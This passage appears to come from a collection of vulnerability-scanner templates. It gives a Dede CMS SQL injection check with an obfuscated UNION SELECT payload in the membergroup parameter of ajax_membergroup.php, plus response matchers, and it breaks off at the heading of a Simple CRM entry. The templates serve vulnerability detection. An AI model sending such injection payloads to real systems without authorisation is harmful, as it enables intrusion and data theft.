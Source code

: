 ### Matchers

**Type - word**

- part - body
- words
  1. 4386499557

**Type - status**

- status
  1. 200

---

# Dede CMS - SQL Injection

## Description

- Dede CMS contains a SQL injection vulnerability which allows remote unauthenticated users to inject arbitrary SQL statements via the ajax_membergroup.php endpoint and the membergroup parameter.
- severity - critical
- tags - sqli,dedecms

## Requests

- Method - GET

### URL

- {{BaseURL}}/member/ajax_membergroup.php?action=post&membergroup=@`'`/_!50000Union+_/+/_!50000select+_/+md5({{num}})+--+@`'`

### Matchers

**Type - word**

- words
  1. {{md5({{num}})}}
- part - body

**Type - status**

- status
  1. 200

---

# Simple CRM 3.0 SQL Injection and Authentication Bypass

## Description

